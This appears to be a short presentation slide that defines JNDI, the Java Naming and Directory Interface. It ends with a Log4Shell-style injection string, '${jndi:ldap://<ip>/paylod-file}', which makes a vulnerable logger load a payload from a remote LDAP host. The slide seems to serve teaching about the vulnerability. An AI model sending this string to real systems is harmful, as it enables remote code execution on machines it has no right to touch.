

# What is it JNDI
JNDI(java Naming and Directory Interface) is (API) designed to provide a common interface to access existing services like DNS, NDS, LDAP, CORBA and RMI
use ${jndi:ldap://<ip>/paylod-file}